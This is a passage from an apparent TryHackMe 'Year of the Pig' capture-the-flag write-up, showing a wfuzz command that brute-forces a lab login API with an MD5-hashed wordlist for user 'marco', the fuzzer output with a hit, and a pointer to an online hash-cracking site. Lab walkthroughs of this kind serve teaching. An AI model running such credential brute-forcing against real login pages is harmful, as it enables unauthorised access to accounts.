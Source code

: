 Now I have 134400 numbers of passwords . 

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_Pig]
└─$ wc modified_wordlist.txt 
 134400  140000 1293600 modified_wordlist.txt
```
{: .nolineno}

When Login I noticed this MD5 implementation in password field 🔽

![Image](Pasted%20image%2020240327203540.png)
_Password is MD5 hashed_

So for this hashing + bruteforcing with a wordlist I used this Tool <mark style="background: #FF5582A6;">wfuzz</mark>
That will take -z flag as input of `wordlist file + hashing` algorithm in it and try it with <span style="color:#ffc000">marco</span> as username .

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_Pig]
└─$ wfuzz -c -z file,modified_wordlist.txt,md5 -X POST -u http://10.10.6.83/api/login -d '{"username":"marco","password":"FUZZ"}' --hh 63 \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate, br" \
-H "Connection: close" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Content-Type: application/x-www-form-urlencoded"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.6.83/api/login
Total requests: 134400

==============================================================ID           Response   Lines    Word       Chars       Payload                                                  
==============================================================
000025766:   500        0 L      0 W        0 Ch        "201350fc21c42d769152f1186cb465b2"                       
000025768:   500        0 L      0 W        0 Ch        "375af69ffa42147b2e1f62908436d4d3"                       
000025769:   200        0 L      3 W        99 Ch       "e..............................c"                       
```
{: .nolineno}

Now I got the password `md5` hash lets crack it with this [online hashes site](https://hashes.com/en/decrypt/hash) Tool🔻
